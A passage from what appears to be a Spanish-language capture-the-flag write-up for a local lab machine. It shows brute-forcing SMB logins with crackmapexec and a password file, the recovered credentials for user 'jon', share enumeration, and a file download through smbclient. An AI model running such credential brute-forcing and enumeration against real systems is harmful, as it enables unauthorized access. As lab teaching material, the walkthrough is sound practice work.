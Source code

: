 Esto podría ser una lista de posibles contraseñas para los usuarios mencionados anteriormente. Guardamos el contenido en un archivo `pass.txt`.

# FUERZA BRUTA

A continuación, llevamos a cabo un ataque de fuerza bruta sobre el puerto `445` (`SMB`), utilizando los usuarios enumerados y el archivo `pass.txt`.

```bash
crackmapexec smb 172.17.0.2 -u jon -p pass.txt           
```

Info:
```
SMB         172.17.0.2      445    77D3C9827BF1     [*] Windows 6.1 Build 0 (name:77D3C9827BF1) (domain:77D3C9827BF1) (signing:False) (SMBv1:False)
SMB         172.17.0.2      445    77D3C9827BF1     [+] 77D3C9827BF1\jon:seacercaelinvierno
```

Obtenemos credenciales válidas para el usuario `jon` : `seacercaelinvierno`.

Procedemos a enumerar las shares con este mismo usuario.

```bash
crackmapexec smb 172.17.0.2 -u jon -p seacercaelinvierno --shares
```

Info:
```
SMB         172.17.0.2      445    77D3C9827BF1     [*] Windows 6.1 Build 0 (name:77D3C9827BF1) (domain:77D3C9827BF1) (signing:False) (SMBv1:False)
SMB         172.17.0.2      445    77D3C9827BF1     [+] 77D3C9827BF1\jon:seacercaelinvierno 
SMB         172.17.0.2      445    77D3C9827BF1     [+] Enumerated shares
SMB         172.17.0.2      445    77D3C9827BF1     Share           Permissions     Remark
SMB         172.17.0.2      445    77D3C9827BF1     -----           -----------     ------
SMB         172.17.0.2      445    77D3C9827BF1     print$          READ            Printer Drivers
SMB         172.17.0.2      445    77D3C9827BF1     shared          READ,WRITE      
SMB         172.17.0.2      445    77D3C9827BF1     IPC$                            IPC Service (Samba 4.17.12-Debian)
SMB         172.17.0.2      445    77D3C9827BF1     jon             READ            Home Directories
```

Tenemos permisos `READ`, `WRITE` sobre el recurso `shared`, así que accedemos usando `smbclient`.

```bash
smbclient \\\\172.17.0.2\\shared -U jon
```

Info:
```
Password for [WORKGROUP\jon]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Sep 15 13:46:35 2025
  ..                                  D        0  Tue Jul 16 22:25:59 2024
  proteccion_del_reino                N      313  Tue Jul 16 22:26:00 2024

		98497780 blocks of size 1024. 66378808 blocks available
smb: \> get proteccion_del_reino 
getting file \proteccion_del_reino of size 313 as proteccion_del_reino (152.8 KiloBytes/sec) (average 152.8 KiloBytes/sec)
smb: \>
```

